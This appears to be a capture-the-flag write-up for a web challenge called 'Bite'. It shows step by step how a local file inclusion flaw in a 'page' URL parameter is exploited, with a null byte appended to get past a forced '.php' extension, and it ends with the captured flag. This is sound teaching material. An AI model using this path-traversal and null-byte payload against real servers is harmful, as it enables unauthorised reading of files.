


# Bite
Author: [gallifrey](https://github.com/gall1frey)

# Challenge

```
Want to learn about binary units of information? 
Check out the "Bite of Knowledge" website!

Connect here:
http://jh2i.com:50010
```

# Solution

The search bar doesn't seem to be doing anything, but when you click a link on the sidebar, it takes you to the
page for that thing.
The link follows a pattern, like

```http://jh2i.com:50010/?page=[word]```

So I change the url to ```http://jh2i.com:50010/?page=flag```

This took me to a page where it told me that the flag was in the ``/flag.txt``` file.



So, I try ```http://jh2i.com:50010/?page=/flag.txt```

That didn't work because the server keeps appending the string entered with '.php'



A work around that is to enter a null character at the end of the string, like ```http://jh2i.com:50010/?page=/flag.txt%00```
That got me the flag

```
flag{lfi_just_needed_a_null_byte}
```
